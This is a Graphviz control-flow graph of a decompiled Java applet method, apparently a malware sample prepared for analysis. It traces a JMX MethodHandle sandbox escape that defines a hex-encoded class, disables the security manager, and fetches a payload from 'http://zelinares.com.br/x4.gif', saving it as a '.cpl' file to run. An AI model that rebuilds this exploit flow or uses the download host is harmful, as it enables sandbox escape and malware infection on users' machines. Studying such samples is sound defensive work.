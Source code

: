 digraph "" {
    "r0 := @this: amor"
    "load.r r0"
    "r0 := @this: amor"->"load.r r0";
    "staticget <amor: java.lang.String ByteArrayWithSecOff>"
    "load.r r0"->"staticget <amor: java.lang.String ByteArrayWithSecOff>";
    "staticinvoke <amor: java.lang.String rver(java.lang.String)>"
    "staticget <amor: java.lang.String ByteArrayWithSecOff>"->"staticinvoke <amor: java.lang.String rver(java.lang.String)>";
    "virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>"
    "staticinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>";
    "store.r r51"
    "virtualinvoke <amor: byte[] hex2Byte(java.lang.String)>"->"store.r r51";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r51"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "staticinvoke <pC: void FstDo(java.lang.Object)>"
    "checkcast"->"staticinvoke <pC: void FstDo(java.lang.Object)>";
    "staticinvoke <pC: void genLookup()>"
    "staticinvoke <pC: void FstDo(java.lang.Object)>"->"staticinvoke <pC: void genLookup()>";
    "push 1"
    "staticinvoke <pC: void genLookup()>"->"push 1";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "push 1"->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "staticput <amor: java.lang.invoke.MethodType localMethodType2>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"staticput <amor: java.lang.invoke.MethodType localMethodType2>";
    "staticinvoke <pC: java.lang.Object[] genObj1()>"
    "staticput <amor: java.lang.invoke.MethodType localMethodType2>"->"staticinvoke <pC: java.lang.Object[] genObj1()>";
    "store.r r4"
    "staticinvoke <pC: java.lang.Object[] genObj1()>"->"store.r r4";
    "staticget <pC: java.lang.invoke.MethodHandle lMH1>"
    "store.r r4"->"staticget <pC: java.lang.invoke.MethodHandle lMH1>";
    "load.r r4"
    "staticget <pC: java.lang.invoke.MethodHandle lMH1>"->"load.r r4";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r4"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r4";
    "store.r r4"->"push 0";
    "staticinvoke <pC: java.lang.invoke.MethodType mtR()>"
    "push 0"->"staticinvoke <pC: java.lang.invoke.MethodType mtR()>";
    "staticinvoke <pC: java.lang.invoke.MethodType mtR()>"->"staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>";
    "staticget <amor: java.lang.Class localClass2>"
    "staticinvoke <pC: void genLMethod(boolean,java.lang.invoke.MethodType)>"->"staticget <amor: java.lang.Class localClass2>";
    "push class \"Ljava/lang/ClassLoader;\""
    "staticget <amor: java.lang.Class localClass2>"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>";
    "store.r r9"
    "staticinvoke <pC: java.lang.Object[] genObj2(java.lang.invoke.MethodType)>"->"store.r r9";
    "staticget <pC: java.lang.invoke.MethodHandle lMH3>"
    "store.r r9"->"staticget <pC: java.lang.invoke.MethodHandle lMH3>";
    "load.r r9"
    "staticget <pC: java.lang.invoke.MethodHandle lMH3>"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "push 2"
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r4";
    "store.r r4"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/String;\""
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>";
    "staticinvoke <pC: java.lang.Object[] genObj3(java.lang.invoke.MethodType)>"->"store.r r9";
    "store.r r9"->"staticget <pC: java.lang.invoke.MethodHandle lMH3>";
    "staticget <pC: java.lang.invoke.MethodHandle lMH3>"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "push 3"
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 2";
    "load.r r51"
    "push 2"->"load.r r51";
    "load.r r51"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "staticinvoke <pC: void NBeAlone(java.lang.Object)>"
    "checkcast"->"staticinvoke <pC: void NBeAlone(java.lang.Object)>";
    "new java.lang.StringBuilder"
    "staticinvoke <pC: void NBeAlone(java.lang.Object)>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"SRESULLA\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"SRESULLA\"";
    "push \"SRESULLA\""->"staticinvoke <amor: java.lang.String rver(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ELIFORP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ELIFORP\"";
    "push \"ELIFORP\""->"staticinvoke <amor: java.lang.String rver(java.lang.String)>";
    "staticinvoke <amor: java.lang.String rver(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r9";
    "store.r r9"->"push null";
    "push null"->"store.r r51";
    "store.r r51"->"push 0";
    "store.b r4"
    "push 0"->"store.b r4";
    "store.b r4"->"store.r r9";
    "store.r r9"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>";
    "push \";\""
    "virtualinvoke <amor: java.lang.String getParameter(java.lang.String)>"->"push \";\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \";\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "store.r r18"
    "arrayread.r"->"store.r r18";
    "store.r r18"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"arrayread.r";
    "store.r r19"
    "arrayread.r"->"store.r r19";
    "store.r r19"->"load.r r9";
    "load.r r9"->"push 2";
    "push 2"->"arrayread.r";
    "push \"0\""
    "arrayread.r"->"push \"0\"";
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"
    "push \"0\""->"virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>";
    "ifne load.r r0"
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"->"ifne load.r r0";
    "ifne load.r r0"->"push 1";
    "push 1"->"store.b r4";
    "store.b r4"->"load.r r0";
    "load.r r18"
    "load.r r0"->"load.r r18";
    "load.r r18"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r51";
    "load.r r51"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\jupdate.\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\jupdate.\"";
    "push \"\\jupdate.\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "load.r r19"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r19";
    "load.b r4"
    "load.r r19"->"load.b r4";
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"
    "load.b r4"->"virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>";
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"load.r r0";
    "push \"http://zelinares.com.br/x4.gif\""
    "load.r r0"->"push \"http://zelinares.com.br/x4.gif\"";
    "push \"\\ph3.\""
    "push \"http://zelinares.com.br/x4.gif\""->"push \"\\ph3.\"";
    "push \"cpl\""
    "push \"\\ph3.\""->"push \"cpl\"";
    "push \"cpl\""->"push 1";
    "push 1"->"virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>";
    "goto return"
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <amor: void dl(java.lang.String,java.lang.String,java.lang.String,boolean)>"->"store.r r0";
    "store.b r4"->"load.r r0";
    "load.r r0"->"load.r r9";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"
    "load.r r9"->"specialinvoke <amor: java.lang.String _get__env(java.lang.String)>";
    "specialinvoke <amor: java.lang.String _get__env(java.lang.String)>"->"store.r r51";
    "goto load.r r0"
    "store.r r51"->"goto load.r r0";
}
